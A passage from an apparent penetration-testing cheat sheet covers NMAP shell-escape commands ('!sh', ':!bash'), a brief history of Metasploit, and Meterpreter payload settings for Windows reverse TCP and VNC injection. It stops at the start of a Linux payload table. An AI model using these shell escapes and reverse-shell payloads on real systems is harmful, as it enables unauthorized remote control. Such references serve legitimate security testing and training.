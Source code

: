 <pre>:!bash</pre>
</figure>
<h3>Spawn TTY Shell NMAP</h3>
<figure>
<pre>!sh</pre>
</figure>
<h2>Metasploit</h2>
<p>Metasploit was created by H. D. Moore in 2003 as a portable network tool using Perl. By 2007, the Metasploit Framework had been completely rewritten in Ruby. On October 21, 2009, the Metasploit Project announced that it had been acquired by Rapid7, a security company that provides unified vulnerability management solutions.</p>
<p>Like comparable commercial products such as Immunity’s Canvas or Core Security Technologies’ Core Impact, Metasploit can be used to test the vulnerability of computer systems or to break into remote systems. Like many information security tools, Metasploit can be used for both legitimate and unauthorized activities. Since the acquisition of the Metasploit Framework, Rapid7 has added two open core proprietary editions called Metasploit Express and Metasploit Pro.</p>
<p>Metasploit’s emerging position as the de facto exploit development framework led to the release of software vulnerability advisories often accompanied by a third party Metasploit exploit module that highlights the exploitability, risk and remediation of that particular bug. Metasploit 3.0 began to include fuzzing tools, used to discover software vulnerabilities, rather than just exploits for known bugs. This avenue can be seen with the integration of the lorcon wireless (802.11) toolset into Metasploit 3.0 in November 2006. Metasploit 4.0 was released in August 2011.</p>
<h3>Meterpreter Payloads</h3>
<h3>Windows reverse meterpreter payload</h3>
<table>
<thead>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>set payload windows/meterpreter/reverse_tcp</td>
<td>Windows reverse tcp payload</td>
</tr>
</tbody>
</table>
<h3>Windows VNC Meterpreter payload</h3>
<table>
<thead>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>set payload windows/vncinject/reverse_tcp<p></p>
<p>set ViewOnly false</p></td>
<td>Meterpreter Windows VNC Payload</td>
</tr>
</tbody>
</table>
<h3>Linux Reverse Meterpreter payload</h3>
<table>
<thead>
<tr>
<th>Command</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>